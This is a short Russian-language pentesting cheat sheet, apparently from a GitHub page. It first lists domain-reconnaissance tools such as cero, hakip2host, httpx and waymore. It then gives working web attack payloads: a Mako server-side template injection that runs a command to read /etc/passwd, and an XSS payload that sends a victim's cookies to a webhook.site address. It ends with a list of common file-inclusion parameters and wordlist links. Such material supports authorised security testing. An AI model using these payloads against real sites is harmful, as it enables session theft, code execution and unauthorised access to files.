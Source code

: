 # Разведка доменных имен

https://github.com/glebarez/cero

Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-рукопожатия.
Сервер не ограничивается только HTTPS и может извлекать сертификаты из любого протокола, работающего через TLS (например, SMTPS) — просто укажите нужные порты для подключения.
Cero позволяет гибко указывать цели, включая доменные имена, IP-адреса и диапазоны CIDR, с полной поддержкой IPv6.

https://github.com/hakluke/hakip2host

hakip2host принимает список IP-адресов через stdin, а затем выполняет серию проверок для возврата связанных доменных имен.

- DNS PTR-поиски
- Альтернативные имена субъектов (SAN) в SSL-сертификатах
- Общие имена (CN) в SSL-сертификатах

https://github.com/projectdiscovery/httpx

httpx— это быстрый и многоцелевой HTTP-инструментарий, позволяющий запускать несколько тестов с помощью библиотеки retryablehttp . Он разработан для обеспечения надёжности результатов при увеличении числа потоков.

https://github.com/xnl-h4ck3r/waymore

Идея waymore заключается в том, чтобы найти еще больше ссылок с помощью Wayback Machine, чем с помощью других существующих инструментов.

👉 Самое большое отличие waymore от других инструментов заключается в том, что он также может загружать архивные ответы для URL-адресов на wayback machine, чтобы вы могли затем искать в них еще больше ссылок, комментариев разработчиков, дополнительных параметров и т. д. и т. п. 👉 Кроме того, другие инструменты в настоящее время не справляются с ограничением скорости, которое сейчас устанавливают источники, и часто просто останавливаются с неполными результатами и не сообщают вам об этом.



# SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters

?cat={payload}

?dir={payload}

?action={payload}

?board={payload}

?date={payload}

?detail={payload}

?file={payload}

?download={payload}

?path={payload}

?folder={payload}

?prefix={payload}

?include={payload}

?page={payload}

?inc={payload}

?locate={payload}

?show={payload}

?doc={payload}

?site={payload}

?type={payload}

?view={payload}

?content={payload}

?document={payload}

?layout={payload}

?mod={payload}

?conf={payload}

##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
# SQLi
https://www.sqlinjection.net/stacked-queries/


